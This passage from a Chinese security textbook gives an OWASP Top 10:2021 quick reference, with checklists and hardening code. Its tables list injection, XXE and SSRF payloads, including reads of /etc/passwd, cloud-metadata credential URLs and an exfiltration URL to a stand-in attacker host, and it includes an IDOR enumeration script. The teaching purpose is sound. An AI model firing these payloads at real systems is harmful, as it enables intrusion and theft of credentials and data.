




## 14.13 OWASP Top 10:2021 详细分析与实战速查

前面12节分别深入讲解了OWASP Top 10:2021每一项风险的原理、攻击手法和防御措施。本节作为全章的**总结性参考手册**，从三个维度提供价值：一是对比2017版与2021版的变化逻辑，帮助理解安全趋势演进；二是为每一项风险提供**攻击速查表**和**防御检查清单**，方便实战中快速查阅；三是揭示十大风险之间的**攻击链关联**，建立系统化的安全思维。

### 14.13.1 从2017到2021：Top 10的演进逻辑

OWASP Top 10并非简单的排名，而是基于**真实漏洞数据**的统计分析结果。2021版基于超过500个CWE漏洞在800多个应用中的出现频率和影响程度进行加权排序。理解版本变化的逻辑，比记忆排名本身更有价值。

#### 版本对比总览

| 排名 | 2017版 | 2021版 | 变化说明 |
|------|--------|--------|----------|
| A01 | 注入 | 访问控制失效 | 注入从第1降至第6；访问控制从第5升至第1 |
| A02 | 失效的认证 | 加密机制失效 | 认证相关漏洞合并重组 |
| A03 | 敏感数据泄露 | 注入 | 注入虽降但仍是高频漏洞 |
| A04 | XXE | 不安全设计 | XXE合并入注入；**新增**不安全设计 |
| A05 | 失效的访问控制 | 安全配置错误 | 访问控制升至第1 |
| A06 | 安全配置错误 | 脆弱和过时的组件 | 组件安全上升3位 |
| A07 | XSS | 身份识别与认证失效 | XSS合并入注入 |
| A08 | 不安全的反序列化 | 软件和数据完整性失效 | 范围扩大至供应链安全 |
| A09 | 使用含已知漏洞的组件 | 安全日志与监控失效 | 组件安全与A06互换 |
| A10 | 日志和监控不足 | 服务端请求伪造(SSRF) | **新增**SSRF |



#### 五大关键变化的深层原因

**1. 访问控制跃居第一（A01：#5→#1）**

数据表明，访问控制相关CWE出现在94%的被测应用中。这不是漏洞变多了，而是行业数据收集范围扩大后，暴露了长期以来被低估的现实。注入漏洞虽然严重，但随着ORM框架和参数化查询的普及，其发生率已显著下降。而访问控制的复杂性——每个端点、每个角色、每个数据归属都需要独立校验——使其成为最难全面覆盖的安全领域。

**2. 不安全设计作为新类别出现（A04）**

这是2021版最重要的概念性变化。OWASP明确指出：**安全问题的根源不在代码缺陷，而在设计缺陷**。一个没有速率限制的密码重置流程，即使代码完全没有bug，攻击者仍可通过暴力枚举6位验证码来劫持任意账号。这标志着行业从"找bug修bug"向"安全左移"的思维转变。

**3. 注入类漏洞合并重组（A03）**

SQL注入、XSS、XXE、模板注入等本质上都是"不受信任的数据被当作代码执行"。2021版将它们统一归入注入类别，强调的是**同一类防御模式**（输入验证+输出编码+参数化），而非按漏洞类型分散讲解。

**4. SSRF单独上榜（A10）**

云原生架构的普及使SSRF的危害性急剧上升。在传统IDC环境中，SSRF最多访问内网服务；但在AWS/GCP/Azure中，攻击者可通过访问`169.254.169.254`元数据服务获取IAM临时凭据，从SSRF直接升级为云环境完全控制。2019年Capital One数据泄露事件（影响1.06亿用户）的攻击入口正是SSRF。

**5. 供应链安全提升至战略高度（A06+A08）**

2020年SolarWinds供应链攻击影响了18000个组织（包括美国政府机构），2021年Log4Shell漏洞影响了全球数百万Java应用。这些事件促使OWASP将组件安全（A06）和完整性安全（A08）同时列为重点。

### 14.13.2 A01:2021 - 访问控制失效 速查

**核心本质**：用户能够超出其预期权限范围执行操作。这是Web应用最常见的安全缺陷，出现在94%的被测应用中。

#### 攻击类型速查表

| 攻击类型 | 攻击手法 | 典型Payload | 危害等级 |
|----------|----------|-------------|----------|
| 垂直越权 | 普通用户访问管理员功能 | `GET /admin/users` | 严重 |
| 水平越权 | 用户A访问用户B数据 | `GET /api/user/456/profile` | 高 |
| IDOR | 通过修改ID访问他人资源 | `GET /download?file_id=456` | 高 |
| 目录遍历 | 访问系统敏感文件 | `../../etc/passwd` | 严重 |
| JWT篡改 | 修改token中的身份信息 | `"role":"admin"` 签名不验证 | 严重 |
| 方法绕过 | 切换HTTP方法绕过限制 | `PUT/DELETE` 未被限制 | 中 |
| 功能级绕过 | 直接调用后端API跳过前端 | 浏览器直接访问API端点 | 高 |

#### 攻击检测方法

```python
# IDOR检测：遍历资源ID观察响应差异
import requests

def detect_idor(base_url, endpoint, auth_token, target_ids):
    """检测IDOR漏洞：同一接口切换不同ID，观察是否返回他人数据"""
    results = []
    for tid in target_ids:
        resp = requests.get(
            f"{base_url}{endpoint}{tid}",
            headers={"Authorization": f"Bearer {auth_token}"}
        )
        results.append({
            "id": tid,
            "status": resp.status_code,
            "data_owner": resp.json().get("owner") if resp.status_code == 200 else None
        })
    # 如果能获取到非本人数据，则存在IDOR
    return [r for r in results if r["status"] == 200 and r["data_owner"] != current_user]
```

#### 防御检查清单

```text
□ 所有API端点都有服务端权限校验（不仅依赖前端隐藏）
□ 使用RBAC/ABAC框架集中管理权限，而非逐个端点硬编码
□ 资源标识符使用UUID而非自增ID（防止枚举）
□ 文件操作使用白名单路径，禁止用户输入拼接文件路径
□ JWT强制验证签名，敏感操作不依赖JWT中的声明
□ CORS配置仅允许受信任的域名
□ 每次请求都验证当前用户对目标资源的所有权或授权关系
□ API响应中不返回超出当前用户权限范围的数据字段
□ 管理后台接口有独立的认证和授权层
□ 日志记录所有越权尝试（包括被拒绝的请求）
```

#### 防御代码示例

```python
# 集中式权限装饰器（Django示例）
from functools import wraps
from django.http import JsonResponse

def require_permission(permission_code):
    """装饰器：在视图函数前校验权限"""
    def decorator(view_func):
        @wraps(view_func)
        def wrapper(request, *args, **kwargs):
            if not request.user.has_perm(permission_code):
                # 记录越权尝试
                log_security_event(
                    event="access_denied",
                    user=request.user.id,
                    path=request.path,
                    permission=permission_code,
                    ip=get_client_ip(request)
                )
                return JsonResponse({"error": "Forbidden"}, status=403)
            return view_func(request, *args, **kwargs)
        return wrapper
    return decorator

# 对象级权限校验
class ObjectPermissionMixin:
    """确保用户只能操作自己拥有的对象"""
    def get_queryset(self):
        qs = super().get_queryset()
        if self.request.user.is_superuser:
            return qs
        return qs.filter(owner=self.request.user)
```

### 14.13.3 A02:2021 - 加密机制失效 速查

**核心本质**：敏感数据在传输或存储过程中未得到适当保护，导致数据泄露。2017版的"敏感数据泄露"重新聚焦于加密机制本身。

#### 常见加密缺陷

| 缺陷类型 | 问题描述 | 正确做法 | 严重程度 |
|----------|----------|----------|----------|
| 明文存储密码 | 数据库中存明文密码 | bcrypt/Argon2哈希 | 严重 |
| 弱哈希算法 | MD5/SHA1用于密码哈希 | Argon2id（首选）/ bcrypt | 严重 |
| 硬编码密钥 | 代码中写死加密密钥 | 环境变量/密钥管理服务(KMS) | 严重 |
| ECB模式使用 | 分组密码使用ECB模式 | 使用GCM/CCM认证加密 | 高 |
| 弱随机数 | 可预测的随机数生成器 | `secrets`模块（Python） | 高 |
| 证书不验证 | 跳过SSL/TLS证书验证 | 强制证书链验证 | 高 |
| HTTP明文传输 | 敏感数据走HTTP | 全站HTTPS+HSTS | 高 |
| 密钥轮换缺失 | 密钥从不更换 | 定期轮换，支持多版本密钥 | 中 |

#### 密码存储最佳实践

```python
import argon2

# Argon2id —— 2024年OWASP推荐的首选算法
# 比bcrypt更强：抗GPU暴力破解、抗侧信道攻击
ph = argon2.PasswordHasher(
    time_cost=3,        # 迭代次数（OWASP推荐3）
    memory_cost=65536,  # 内存消耗64MB（OWASP推荐）
    parallelism=4,      # 并行度（OWASP推荐4）
    hash_len=32,        # 输出哈希长度32字节
    salt_len=16         # 盐长度16字节
)

def hash_password(password: str) -> str:
    """哈希密码，返回编码后的字符串（含算法参数、盐、哈希值）"""
    return ph.hash(password)

def verify_password(password: str, hashed: str) -> bool:
    """验证密码，自动处理版本迁移"""
    try:
        return ph.verify(hashed, password)
    except argon2.exceptions.VerifyMismatchError:
        return False
    except argon2.exceptions.InvalidHashError:
        return False

def needs_rehash(hashed: str) -> bool:
    """检查哈希是否需要升级（参数变更后自动触发）"""
    return ph.check_needs_rehash(hashed)
```

#### 数据传输加密检查

```bash
# 检查站点HTTPS配置
nmap --script ssl-enum-ciphers -p 443 example.com

# 使用testssl.sh全面检查
./testssl.sh https://example.com

# 检查HSTS是否生效
curl -sI https://example.com | grep -i strict-transport-security
```

### 14.13.4 A03:2021 - 注入 速查

**核心本质**：不受信任的数据被当作命令或查询的一部分执行。2021版将SQL注入、XSS、XXE、模板注入等统一归入此类。

#### 注入类型全景

| 注入类型 | 攻击场景 | 典型Payload | 防御方法 |
|----------|----------|-------------|----------|
| SQL注入 | 查询参数被拼接为SQL | `' OR 1=1--` | 参数化查询/ORM |
| XSS(反射型) | 用户输入直接输出到页面 | `<script>alert(1)</script>` | 输出编码+CSP |
| XSS(存储型) | 恶意输入存入数据库后执行 | 恶意评论/签名 | 输出编码+输入过滤 |
| NoSQL注入 | MongoDB查询被篡改 | `{"$gt":""}` | 类型验证+ODM |
| 命令注入 | 用户输入拼接为系统命令 | `; cat /etc/passwd` | 参数化API |
| LDAP注入 | LDAP查询被篡改 | `*)(uid=*))(\|` | LDAP转义 |
| 模板注入(SSTI) | 用户输入作为模板引擎代码 | `{{7*7}}` → 49 | 沙箱+禁止用户输入模板 |
| XPath注入 | XPath查询被篡改 | `' or '1'='1` | 参数化XPath |
| XXE | XML解析外部实体 | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | 禁用外部实体 |

#### SQL注入检测与防御对比

```python
# ❌ 危险：字符串拼接
def get_user_unsafe(username):
    query = f"SELECT * FROM users WHERE username = '{username}'"
    # 输入: ' OR '1'='1' --
    # 实际执行: SELECT * FROM users WHERE username = '' OR '1'='1' --'
    return db.execute(query)

# ✅ 安全：参数化查询
def get_user_safe(username):
    query = "SELECT * FROM users WHERE username = %s"
    return db.execute(query, (username,))
    # 数据库驱动自动处理转义，输入被当作纯数据而非SQL代码

# ✅ 安全：ORM（Django示例）
def get_user_orm(username):
    return User.objects.filter(username=username).first()
    # ORM内部使用参数化查询
```

#### XSS防御多层体系

```python
# 第一层：输入验证（白名单）
import re
def validate_username(username):
    if not re.match(r'^[a-zA-Z0-9_]{3,20}$', username):
        raise ValueError("用户名只能包含字母、数字和下划线")
    return username

# 第二层：输出编码（上下文感知）
from markupsafe import escape, Markup

# HTML上下文
safe_name = escape(user_input)  # < → &lt; > → &gt;

# JavaScript上下文
import json
safe_js = json.dumps(user_input)  # 自动转义引号和特殊字符

# URL上下文
from urllib.parse import quote
safe_url = quote(user_input, safe='')

# 第三层：CSP头部（限制脚本来源）
# Nginx配置
# add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'nonce-{random}';" always;
```

### 14.13.5 A04:2021 - 不安全设计 速查

**核心本质**：安全问题的根源在于设计而非代码。这是2021版最重要的新增类别，强调"安全左移"——在需求和设计阶段就考虑安全。

#### 不安全设计 vs 安全实现缺陷

| 维度 | 不安全设计（A04） | 安全实现缺陷（其他项） |
|------|-------------------|----------------------|
| 问题所在 | 架构/流程设计 | 代码/配置层面 |
| 修复方式 | 重新设计 | 修补代码 |
| 修复成本 | 极高（可能需要重构） | 相对较低 |
| 典型示例 | 密码重置流程无速率限制 | SQL注入 |
| 检测方法 | 威胁建模/架构审查 | 代码审计/SAST/DAST |

#### 威胁建模实战：STRIDE方法



#### 安全设计模式

```python
# 模式1: 密码重置流程安全设计
class PasswordResetFlow:
    """
    不安全设计示例 → 安全设计对比
    
    不安全设计:
    - 6位数字验证码，无尝试次数限制
    - 验证码24小时有效
    - 验证码与用户ID绑定但不与会话绑定
    
    安全设计:
    - 密码学安全的随机token（至少32字节）
    - 15分钟过期
    - 单次使用，使用后立即失效
    - 10分钟内最多5次尝试
    - token与用户会话绑定
    """
    
    def generate_reset_token(self, user_id, session_id):
        token = secrets.token_urlsafe(32)  # 密码学安全随机token
        expiry = datetime.utcnow() + timedelta(minutes=15)
        
        store.save_token(
            token_hash=sha256(token),  # 存储哈希而非明文
            user_id=user_id,
            session_id=session_id,
            expiry=expiry,
            max_attempts=5,
            attempts=0
        )
        return token
    
    def verify_reset_token(self, user_id, token, session_id):
        record = store.get_token(sha256(token))
        
        # 多重校验
        if not record:
            return False, "invalid_token"
        if record.expired:
            return False, "token_expired"
        if record.attempts >= record.max_attempts:
            return False, "too_many_attempts"
        if record.user_id != user_id:
            return False, "user_mismatch"
        if record.session_id != session_id:
            return False, "session_mismatch"
        if record.used:
            return False, "token_already_used"
        
        record.used = True  # 标记为已使用
        return True, "success"
```

### 14.13.6 A05:2021 - 安全配置错误 速查

**核心本质**：系统、框架、应用的默认配置或自定义配置存在安全缺陷。

#### 常见配置错误分类

| 类别 | 具体问题 | 检查方法 | 修复方案 |
|------|----------|----------|----------|
| 默认凭据 | admin/admin、root空密码 | 自动化扫描 | 首次部署强制修改 |
| 调试模式开启 | DEBUG=True生产环境 | 环境变量检查 | 环境隔离+配置管理 |
| 目录列表 | Apache/Nginx列出目录内容 | `curl http://site/assets/` | 禁用目录列表 |
| 错误详情泄露 | 堆栈跟踪暴露代码结构 | 触发500错误 | 生产环境隐藏详情 |
| 安全头部缺失 | 无CSP/HSTS/X-Frame-Options | `curl -I` 检查 | 配置安全头部 |
| 云存储公开 | S3桶公开读写 | AWS Config规则 | 最小权限策略 |
| 不必要端口暴露 | 数据库端口对外开放 | 端口扫描 | 防火墙规则 |
| 过期SSL证书 | 证书过期或弱算法 | SSL检查工具 | 自动续期 |

#### Nginx安全配置模板

```nginx
server {
    listen 443 ssl http2;
    server_name example.com;
    
    # === SSL配置 ===
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem;
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256;
    ssl_prefer_server_ciphers off;
    ssl_session_cache shared:SSL:10m;
    ssl_session_timeout 1d;
    ssl_session_tickets off;
    
    # === 安全头部 ===
    add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
    add_header X-Frame-Options "DENY" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;
    add_header Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self'; connect-src 'self'; frame-ancestors 'none'; base-uri 'self'; form-action 'self';" always;
    
    # === 隐藏服务器信息 ===
    server_tokens off;
    more_clear_headers Server;
    
    # === 请求限制 ===
    client_max_body_size 10m;
    client_body_buffer_size 1k;
    client_header_buffer_size 1k;
    large_client_header_buffers 2 1k;
    
    # === 禁止访问隐藏文件 ===
    location ~ /\. {
        deny all;
        access_log off;
        log_not_found off;
    }
    
    # === 限制HTTP方法 ===
    if ($request_method !~ ^(GET|HEAD|POST|PUT|DELETE)$) {
        return 405;
    }
}

# HTTP → HTTPS重定向
server {
    listen 80;
    server_name example.com;
    return 301 https://$host$request_uri;
}
```

#### Docker安全配置检查

```bash
# Docker镜像安全扫描
trivy image myapp:latest

# Dockerfile最佳实践检查
hadolint Dockerfile

# 运行时安全检查
docker inspect --format='{{.HostConfig.Privileged}}' container_name  # 应为false
docker inspect --format='{{.Config.User}}' container_name  # 不应为root
```

### 14.13.7 A06:2021 - 脆弱和过时的组件 速查

**核心本质**：使用了含有已知漏洞的第三方组件，或组件版本过旧不再维护。

#### 著名供应链安全事件

| 事件 | 时间 | 影响范围 | 根因 | 教训 |
|------|------|----------|------|------|
| Log4Shell (CVE-2021-44228) | 2021.12 | 数百万Java应用 | Log4j JNDI注入 | 传递依赖也需审查 |
| SolarWinds | 2020.12 | 18000+组织 | 构建管道被入侵 | 验证构建产物完整性 |
| event-stream | 2018.11 | npm生态 | 维护者权限被转让 | 审查依赖所有权变更 |
| Heartbleed | 2014.04 | 全球HTTPS服务器 | OpenSSL缓冲区溢出 | 核心组件安全审计 |
| Left-pad | 2016.03 | npm生态 | 维护者删除包 | 依赖锁定+私有镜像 |

#### SCA工具对比

| 工具 | 生态系统 | 免费版 | 特点 |
|------|----------|--------|------|
| npm audit | Node.js | 完全免费 | 内置于npm |
| pip-audit | Python | 完全免费 | Google维护 |
| Snyk | 多语言 | 有限免费 | 修复建议优秀 |
| Dependabot | GitHub | 公共仓库免费 | 自动PR修复 |
| OWASP Dependency-Check | Java为主 | 完全免费 | CVE数据库 |
| Trivy | 多语言/容器 | 完全免费 | 速度快，支持容器 |
| Grype | 多语言/容器 | 完全免费 | Anchore出品 |

```bash
# Python项目依赖审计
pip install pip-audit safety
pip-audit  # 检查已安装的包
pip-audit -r requirements.txt  # 检查requirements文件

# Node.js项目
npm audit
npm audit fix --force  # 自动修复（可能有破坏性变更）

# Go项目
govulncheck ./...

# 生成SBOM（软件物料清单）
syft dir:. -o spdx-json > sbom.json
# 使用SBOM检查漏洞
grype sbom:sbom.json
```

### 14.13.8 A07:2021 - 身份识别与认证失效 速查

**核心本质**：攻击者能够通过凭证填充、暴力破解、弱密码策略等方式获取他人身份。

#### 认证安全层次模型



#### 多因素认证实现

```python
import pyotp
import qrcode

class TOTPAuthenticator:
    """TOTP双因素认证实现"""
    
    def setup_mfa(self, user):
        """生成TOTP密钥和二维码"""
        secret = pyotp.random_base32()  # 生成随机密钥
        totp = pyotp.TOTP(secret)
        
        # 生成二维码URI
        provisioning_uri = totp.provisioning_uri(
            name=user.email,
            issuer_name="MyApp"
        )
        
        # 存储密钥（加密后存储到数据库）
        user.mfa_secret = encrypt(secret)
        user.mfa_enabled = True
        user.save()
        
        return {
            "secret": secret,
            "qr_uri": provisioning_uri,
            "backup_codes": self.generate_backup_codes(user)
        }
    
    def verify_mfa(self, user, token):
        """验证TOTP码，允许前后30秒的时间窗口"""
        secret = decrypt(user.mfa_secret)
        totp = pyotp.TOTP(secret)
        return totp.verify(token, valid_window=1)  # ±30秒窗口
    
    def generate_backup_codes(self, user, count=10):
        """生成备用恢复码（用于丢失设备时）"""
        codes = [secrets.token_hex(4) for _ in range(count)]
        user.backup_codes = [hash_code(c) for c in codes]
        user.save()
        return codes  # 仅在此处展示一次明文
```

### 14.13.9 A08:2021 - 软件和数据完整性失效 速查

**核心本质**：代码和基础设施在没有完整性验证的情况下被修改，特别是CI/CD管道和自动更新机制。

#### 供应链攻击面分析



#### CI/CD安全加固

```yaml
# GitHub Actions安全最佳实践
name: Secure CI Pipeline
on: [push, pull_request]

permissions:
  contents: read  # 最小权限原则

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      # 固定Action版本到commit SHA（防止标签篡改）
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11 # v4.1.1
      
      # 验证依赖完整性
      - name: Verify dependency lockfile
        run: |
          npm ci --ignore-scripts  # 使用lockfile，禁止安装脚本
      
      # 构建产物签名
      - name: Sign build artifact
        run: |
          cosign sign-blob --yes --output-signature sig.sig --output-cert cert.pem ./dist/app.tar.gz
      
      # SBOM生成
      - name: Generate SBOM
        run: syft dir:. -o spdx-json > sbom.spdx.json
      
      # 漏洞扫描
      - name: Scan for vulnerabilities
        run: grype dir:. --fail-on high
```

### 14.13.10 A09:2021 - 安全日志和监控失效 速查

**核心本质**：安全事件发生后无法及时检测、响应和溯源。攻击者平均在系统中驻留197天后才被发现（IBM 2023年数据）。

#### 日志记录框架

```python
import structlog
import json
from datetime import datetime, timezone

# 结构化日志配置
structlog.configure(
    processors=[
        structlog.processors.TimeStamper(fmt="iso"),
        structlog.processors.add_log_level,
        structlog.processors.JSONRenderer()
    ]
)

logger = structlog.get_logger("security")

class SecurityEventLogger:
    """安全事件日志记录器"""
    
    LOG_EVENTS = {
        "auth": ["login_success", "login_failure", "logout", "password_change",
                 "mfa_enable", "mfa_disable", "password_reset"],
        "access": ["access_denied", "privilege_escalation_attempt", 
                   "unauthorized_api_call"],
        "data": ["data_export", "bulk_data_access", "sensitive_data_access"],
        "admin": ["user_created", "user_deleted", "role_changed", 
                  "config_changed", "permission_changed"]
    }
    
    def log_auth_event(self, event_type, user_id, ip, details=None):
        """记录认证相关事件"""
        logger.info(
            event_category="auth",
            event_type=event_type,
            user_id=user_id,
            source_ip=ip,
            user_agent=details.get("user_agent") if details else None,
            success=event_type.endswith("_success"),
            **(details or {})
        )
    
    def log_access_denied(self, user_id, resource, action, ip):
        """记录访问拒绝事件（越权尝试）"""
        logger.warning(
            event_category="access",
            event_type="access_denied",
            user_id=user_id,
            resource=resource,
            action=action,
            source_ip=ip,
            severity="high"
        )

# 告警规则示例
ALERT_RULES = {
    "brute_force": {
        "condition": "login_failure.count(user_id, window=10m) > 5",
        "action": "lock_account + notify_security_team"
    },
    "privilege_escalation": {
        "condition": "access_denied.count(user_id, window=1h) > 10",
        "action": "block_ip + notify_security_team"
    },
    "data_exfiltration": {
        "condition": "data_export.size(user_id, window=1h) > 100MB",
        "action": "throttle + notify_security_team"
    }
}
```

#### ELK Stack日志架构

```text
应用日志 → Filebeat → Logstash → Elasticsearch → Kibana
                                    ↓
                              告警规则引擎 → 通知渠道(Slack/PagerDuty/邮件)
```

### 14.13.11 A10:2021 - 服务端请求伪造（SSRF） 速查

**核心本质**：应用在处理用户提供的URL时，未充分验证就发起服务端请求，攻击者可借此访问内部资源。

#### SSRF攻击场景

| 场景 | 目标 | Payload示例 | 危害 |
|------|------|-------------|------|
| 内网扫描 | 内部服务发现 | `url=http://192.168.1.1:8080` | 发现内部服务 |
| 云元数据 | AWS IAM凭据 | `url=http://169.254.169.254/latest/meta-data/iam/` | 云账户接管 |
| 内部API | 管理接口 | `url=http://internal-api:9090/admin/` | 未授权操作 |
| 本地文件 | 读取本地文件 | `url=file:///etc/passwd` | 信息泄露 |
| 盲SSRF | 外带数据(DNS) | `url=http://data.attacker.com` | 数据外泄 |
| 端口探测 | 判断端口状态 | 通过响应时间差异判断 | 服务发现 |

#### SSRF绕过技术与防御

```python
import ipaddress
import socket
from urllib.parse import urlparse

class SSRFProtection:
    """SSRF防护：URL白名单验证 + DNS解析二次校验"""
    
    # 禁止访问的IP范围
    BLOCKED_RANGES = [
        ipaddress.ip_network('10.0.0.0/8'),       # 内网A类
        ipaddress.ip_network('172.16.0.0/12'),     # 内网B类
        ipaddress.ip_network('192.168.0.0/16'),    # 内网C类
        ipaddress.ip_network('127.0.0.0/8'),       # 回环地址
        ipaddress.ip_network('169.254.0.0/16'),    # 链路本地（云元数据）
        ipaddress.ip_network('0.0.0.0/8'),         # 当前网络
        ipaddress.ip_network('100.64.0.0/10'),     # 运营商NAT
    ]
    
    # 允许的协议
    ALLOWED_SCHEMES = ['http', 'https']
    
    def is_safe_url(self, url: str) -> tuple[bool, str]:
        """验证URL是否安全可访问"""
        
        # 1. 解析URL
        try:
            parsed = urlparse(url)
        except Exception:
            return False, "URL解析失败"
        
        # 2. 协议白名单
        if parsed.scheme not in self.ALLOWED_SCHEMES:
            return False, f"不允许的协议: {parsed.scheme}"
        
        # 3. 禁止认证信息（避免 http://internal@evil.com 类绕过）
        if parsed.username or parsed.password:
            return False, "URL中不允许包含认证信息"
        
        # 4. 主机名解析
        hostname = parsed.hostname
        if not hostname:
            return False, "缺少主机名"
        
        # 5. DNS解析后二次校验（防止DNS重绑定）
        try:
            resolved_ips = socket.getaddrinfo(hostname, None, socket.AF_INET)
            for _, _, _, _, sockaddr in resolved_ips:
                ip = ipaddress.ip_address(sockaddr[0])
                
                # 检查是否为私有/保留地址
                if ip.is_private or ip.is_loopback or ip.is_link_local:
                    return False, f"禁止访问私有地址: {ip}"
                
                # 检查是否在黑名单范围
                for blocked in self.BLOCKED_RANGES:
                    if ip in blocked:
                        return False, f"IP在禁止范围内: {ip} ({blocked})"
        except socket.gaierror:
            return False, "DNS解析失败"
        
        # 6. 禁止重定向到内部地址
        # （在实际请求时需要禁用自动重定向，手动检查Location头）
        return True, "URL安全"
    
    def safe_fetch(self, url: str, timeout: int = 5) -> dict:
        """安全地发起HTTP请求"""
        is_safe, reason = self.is_safe_url(url)
        if not is_safe:
            raise ValueError(f"SSRF防护拦截: {reason}")
        
        import requests
        # 禁止自动重定向，手动验证
        resp = requests.get(url, timeout=timeout, allow_redirects=False)
        
        # 如果有重定向，验证目标URL
        if resp.is_redirect:
            redirect_url = resp.headers.get('Location')
            is_safe, reason = self.is_safe_url(redirect_url)
            if not is_safe:
                raise ValueError(f"重定向目标不安全: {reason}")
        
        return resp
```

### 14.13.12 十大风险的攻击链关联

OWASP Top 10的10项风险并非孤立存在。真实的攻击往往是多种漏洞的组合利用，形成攻击链。理解这些关联，才能建立系统化的防御思维。

#### 典型攻击链

```mermaid
graph TB
    subgraph "攻击链示例1: 从注入到完全控制"
        A1["A03 SQL注入"] -->|"绕过认证"| A2["A07 认证失效"]
        A2 -->|"提升权限"| A3["A01 访问控制失效"]
